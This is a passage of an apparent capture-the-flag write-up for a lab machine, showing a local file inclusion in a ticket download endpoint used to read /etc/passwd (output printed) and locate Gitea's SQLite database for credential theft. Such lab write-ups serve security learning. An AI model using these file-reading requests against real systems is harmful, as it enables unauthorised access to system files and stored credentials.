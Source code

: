 ## Exploitation
### User Flag
A Local File Inclusion vulnerability is discovered in the http://titanic.htb/download endpoint that would download any file given as the parameter value for the *ticket* parameter. The file should have at least read permissions for the user running the service for the file to be downloaded.
The **/etc/passwd** file is downloaded by visiting [http://titanic.htb/download?ticket=/etc/passwd](http://titanic.htb/download?ticket=/etc/passwd)
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
A user account named *developer* is present on the machine, which is running the Gitea service and potentially owns the user flag.

The **gitea.db** file is the SQLite database file used by Gitea when SQLite is configured as the database backend. The path where Gitea's data is stored on the host machine was present in the *docker-compse.yml* file. By referencing that information along with documentation and [installation](https://www.digitalocean.com/community/tutorials/how-to-store-gitea-repositories-on-a-separate-volume#setting-up-a-new-installation-of-gitea) details, it is revealed that the **gitea.db** file is located at **/home/developer/gitea/data/gitea/gitea.db**.
